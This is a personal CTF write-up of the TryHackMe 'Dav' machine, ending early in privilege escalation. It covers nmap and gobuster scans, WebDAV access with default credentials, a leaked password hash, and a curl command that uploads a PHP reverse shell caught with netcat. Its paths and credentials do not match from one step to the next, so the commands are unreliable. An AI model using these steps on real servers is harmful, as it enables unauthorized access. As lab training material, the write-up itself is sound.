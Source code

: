 ```yaml
---
title: TryHackMe - Dav
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, http, gobuster, crack, SUID]
---
```


# Dav

Boot2root machine for FIT and bsides guatemala CTF.  

# Tasks

Read user.txt and root.txt.  

# nmap

## `ip = 10.10.127.205`

## Command 
```sh
 nmap -sV -sC -A -v 10.10.127.205 | tee nmap.txt
```

## Results
```sh
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
106/tcp filtered pop3pw
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  

![[Pasted image 20241028192746.png]]

### gobuster
```sh
 gobuster dir -u http://10.10.127.205 -w /usr/share/wordlists/dirb/common.txt
 ```

![[Pasted image 20241028192804.png]]

We get this directory known as `/weddav`  
![[Pasted image 20241028192824.png]]

Here i need a username and password.  
Did some research and got this default credentials.  
![[Pasted image 20241028192835.png]]

User = `wampp`  
pass = `xampp`  
Entering the credentials i get a file `passwd.dav`file.  
![[Pasted image 20241028192854.png]]

`=wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91`
Cracked the hash but got nothing much.  

I searched for web-dav vulnerability and got that we can upload files to it's server.  
I think if I can upload the shell and connect to it we can login into the system easily.  

I used a php reverse shell , changed the ip and uploaded it  
```sh
curl --user "wamp:xamp" http://10.10.127.205/webdev/ --upload-file reverseshell.php -v
```
![[Pasted image 20241028192946.png]]

Run nc cat on my machine then run the code.  
Got the shell and stabilized it.  
![[Pasted image 20241028192957.png]]

Now it's just a matter of looking for the `user.txt ` 
![[Pasted image 20241028193015.png]]

# Privilege Escalation
For this i always first run  
- `sudo -l`
- cat `/etc/crontab`

## sudo -l
![[Pasted image 20241028193031.png]]
This was simple since the user can read any file with `sudo` without a password.  
